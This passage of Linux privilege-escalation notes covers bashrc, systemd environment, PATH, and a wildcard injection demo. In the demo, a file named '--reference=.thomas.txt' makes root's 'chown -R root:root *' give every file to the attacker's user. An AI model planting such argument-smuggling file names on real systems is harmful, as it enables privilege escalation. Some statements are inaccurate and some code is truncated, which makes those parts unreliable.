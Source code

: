 bashrc is executed for every user who run a bash shell. It sets the default prompt, as well as adding aliases

bash_profile is is used by each user to enter information that are specific to them. It is executed only when the user logs in

#### Systemd PATH

We can dump the systemd manager environment block. This is the environment block that is passed to all processes the manager spawns.

```bash
systemctl show-environment
```

Same principle as $PATH, but for systemd services.

###### *If you don't know, now you know: [PATH](https://en.wikipedia.org/wiki/PATH_(variable))*

PATH is an environmental variable in Linux and Unix-like operating systems which specifies all bin and sbin directories that hold all executable programs are stored.

When the user run any command on the terminal, its request to the shell to search for executable files with the help of PATH Variable in response to commands executed by a user.

### Wildcard

When you provide **--** followed by two spaces, it instructs the program to stop interpret command line argument.

#### Chown/Chmod file reference

Here we wil use the **--reference=FILE** parameter that use the given *file*'s owner and group rather than specifying OWNER:GROUP values.

```bash
touch -- --reference=.thomas.txt
chown -R * .txt # This wil
```

Here below is an example:

```bash
# Create:
# - One file called ".thomas.txt" that belong to me
# - One filed called "--reference=.thomas.txt" which will be used as a reference parameter

kali@kali:/example$ touch .thomas.txt
kali@kali:/example$ touch -- --reference=.thomas.txt

# You can see that all files, except the two I created belongs to root
kali@kali:/example$ ls -all
total 44
drwxrwxrwx  2 root root  4096 Nov 20 11:41  .
drwxr-xr-x 22 root root 36864 Nov 20 11:31  ..
-rw-r--r--  1 root root     0 Nov 20 11:40  file1.txt
-rw-r--r--  1 root root     0 Nov 20 11:40  file2.txt
-rw-r--r--  1 root root     0 Nov 20 11:41  file3.txt
-rw-r--r--  1 kali kali     0 Nov 20 11:41 '--reference=.thomas.txt'
-rw-r--r--  1 kali kali     0 Nov 20 11:41  .thomas.txt

# Let's connect as root and decide that ALL files within the directory
# should belong to the user and group root
root@kali:/example# chown -R root:root * 2>/dev/null

# And we can see that it took the "--reference=.thomas.txt" via the '*' and assigned all the files to the user kali
root@kali:/example# ls -all
total 44
```